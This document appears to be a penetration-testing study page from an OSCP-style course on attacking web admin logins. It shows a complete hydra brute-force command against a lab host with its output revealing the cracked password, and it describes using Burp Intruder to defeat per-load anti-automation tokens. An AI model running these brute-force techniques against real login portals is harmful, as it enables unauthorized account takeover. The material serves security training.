

# Exploiting Admin Consoles

Once an admin portal (usually created by a web framework or developer) is located, the simplest "exploit" is to simply login. It is usually recommended to begin with any known/exfiltrated credentials for the organization as well as attempting the default credentials on any systems that are found.

## Brute Force

When presented with a login panel, brute forcing the login is always _technically_ an option (though usually not a good one). With web admin portals brute forcing should always be done with a delicate touch. Any account lockouts will both slow down the attack's progress as well as potentially alerting network monitors to an attacker's presence.

### Hydra

If brute forcing is desired a highly useful tool is hydra. It can be used to automate the password attempts. Passwords can be fed either from a file or they can be generated on the fly based on some provided characteristics (min length, max length, character set, etc.). There are a variety of options to allow customization of how the login is attempted (e.g. how to fill out the form on the login page).

#### Example Usage

In this example hydra is used to brute force an HTTP login page located at `http://offsec.test/login.php` using a wordlist of passwords and the username `admin`.

```bash
kali@kali:~$ hydra -l admin -P ~/OSCP/Exercises/passwords.txt offsec.test http-post-form "/login.php:username=^USER^&password=^PASS^:F=Failed" -vV -f
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-02 17:32:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 30 login tries (l:1/p:30), ~2 tries per task
[DATA] attacking http-post-form://offsec.test:80/login.php:username=^USER^&password=^PASS^:F=Failed
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target offsec.test - login "admin" - pass "peter" - 1 of 30 [child 0] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "peterv" - 2 of 30 [child 1] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "venkman" - 3 of 30 [child 2] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "billmurray" - 4 of 30 [child 3] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "raymond" - 5 of 30 [child 4] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "stantz" - 6 of 30 [child 5] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "raymonds" - 7 of 30 [child 6] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "danaykroyd" - 8 of 30 [child 7] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "egon" - 9 of 30 [child 8] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "spengler" - 10 of 30 [child 9] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "egons" - 11 of 30 [child 10] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "haroldramis" - 12 of 30 [child 11] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "winston" - 13 of 30 [child 12] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "zeddemore" - 14 of 30 [child 13] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "winstonz" - 15 of 30 [child 14] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "dana" - 16 of 30 [child 15] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "barrett" - 17 of 30 [child 0] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "danab" - 18 of 30 [child 3] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "sigourneyweaver" - 19 of 30 [child 2] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "slimer" - 20 of 30 [child 1] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "stay_puft" - 21 of 30 [child 4] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "marshmallow_man" - 22 of 30 [child 5] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "gozer" - 23 of 30 [child 6] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "the_destroyer" - 24 of 30 [child 7] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "zuul" - 25 of 30 [child 11] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "vinz" - 26 of 30 [child 9] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "clortho" - 27 of 30 [child 8] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "dirbusters" - 28 of 30 [child 10] (0/0)
[ATTEMPT] target offsec.test - login "admin" - pass "cleaning" - 29 of 30 [child 12] (0/0)
[80][http-post-form] host: offsec.test   login: admin   password: zeddemore
[STATUS] attack finished for offsec.test (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-02 17:32:57
```

### BurpSuite Intruder

BurpSuite's Intruder functionality can also be used in brute forcing login pages. Due to its GUI configuration it can often be slightly easier to use than Hydra. The main downside in comparison is the Intruder's speed is limited under the Community license (if a Professional license is available this would be the preferred option).

Modern  webpages will often include hidden tokens that are randomly generated when the page is loaded and are used to prevent automated brute force login attempts. This wrinkle can be overcome by Intruder.

#### Example

This login portal has 2 values (`set_session` & `token`) that are randomly generated each time the page is loaded. Each submission of the login page will need a unique (and matching) pair of tokens.

<figure><figcaption><p>Tokens buried in login page's HTML</p></figcaption></figure>

Using a **Pitchfork attack**, Intruder can be set to individually modify each of the required parameters on the login portal. Under the Intruder > Options tab, users can define grep extractions that can be used to dynamically pull tokens out of the HTML login page. Full details can be found [here](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/web-application-attacks/exploiting-admin-consoles/burp-suite-intruder).
